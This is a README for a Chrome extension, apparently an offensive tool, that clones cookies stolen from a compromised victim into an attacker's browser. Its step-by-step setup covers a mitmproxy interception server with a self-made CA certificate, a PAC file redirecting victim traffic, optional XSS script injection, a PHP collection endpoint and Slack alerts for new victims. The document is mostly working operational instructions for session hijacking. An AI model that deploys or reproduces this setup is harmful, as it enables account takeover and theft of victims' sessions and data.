 # CookieFeeder

CookieFeeder is a Chrome Extension designed to help in the process of cloning cookies from a compromised victim, by replicating the cookies from a remote log file into the browser. The extension will inject all cookies, including secured cookies, into all compromised websites without the need to have url opened.

## Server Setup

Follow this in case you want to do a full setup, including the server for capturing the cookies. Otherwise, skip to the next section.

1. Create an EC2/Lightsail instance. Install apache2, setup your domain and SSL certificates.

2. Clone the repository:
    ```
    git clone https://github.com/thiagomayllart/Blender
    cd Blender/CookieFeeder
    ``` 
3. Install mitmproxy:
    ```
    apt install mitmproxy
    ```
4. Change `cert_gen.cnf` as you wish. This is the config file to create the CA certificate and key. Ideally you will only need to change the "dn" section with other information.
5. Run
    ```
    ./generate_certs.sh`
    ```
6. Save your `server.php` in your apache2 path (e.g. /var/www/html). You can change the filename, only ensure you have installed php mod in your apache2 server:
    ```
    apt install php libapache2-mod-php
    ```
7. Generate you IV and key:
    ```
    ./generate_key_iv.sh
    ```
8. Replace the KEY and IV in the `cookie_monitor.py` file:
    ```
    KEY = base64.b64decode('YOUR_KEY')
    IV = base64.b64decode('YOUR_IV')
    ```
9. Replace the PHP url in the `cookie_monitor.py` file. This should be the url of the server.php:
    ```
    SERVER_URL = 'https://YOUR_ENDPOINT/server.php'
    ```
10. Add your Slack Webhook for alerting upon new connections:
    ```
    SLACK_WEBHOOK_URL = 'https://ADD_HERE'
    ```
11. If you are injecting XSS in the pages, replace here:
    ```
    script.src = 'YOUR_SCRIPT_JS_URL';
    ```
12. Also replace this variable `WHITELISTED_HOST` with the url your XSS is stored.
13. Modify the `your_proxy_domain` in the settings.pac file. This should be the endpoint you will be running your proxy. Ideally, the proxy and the apache2 should be in the same server, thus, the domain should be the same.
14. Store your settings.pac file (and change the name) in the root of your apache web server.
15. Start the proxy:
    ```
    mkdir logs
    mitmdump -s cookie_monitor.py --set stream_large_bodies=1m --set flow_detail=0 --set max_flow_size=100m --set connection_strategy=lazy --set block_global=false -p 8080
    ```

## Extension Setup

1. Clone the repository:
```
git clone https://github.com/thiagomayllart/CookieFeeder
```
2. Create a new Chrome Profile. This is useful to avoid overwriting or conflicting with your actual cookies.
```
Customize and Control Google Chrome -> Select the current Profile -> Add new profile
```
3. Install CookieFeeder. 
4. You should have already created your key/IV from the previous section, if not, run `generate_key_iv.sh`. Using those keys, replace `YOUR_KEY` and `YOUR_IV` in CookieFeeder/cookiefeeder/background.js.
    - a. ```Navigate to chrome://extensions/```
    - b. ```Select "load unpacked"```
    - c. ```Select the cookiefeeder directory inside the clone repository```
    - d. ```Extension will be added to Chrome```

5. Click on the extension icon, input the Cookies URL and click on Save. Wait a few seconds as the cookies will be synchronized with your Chrome profile.

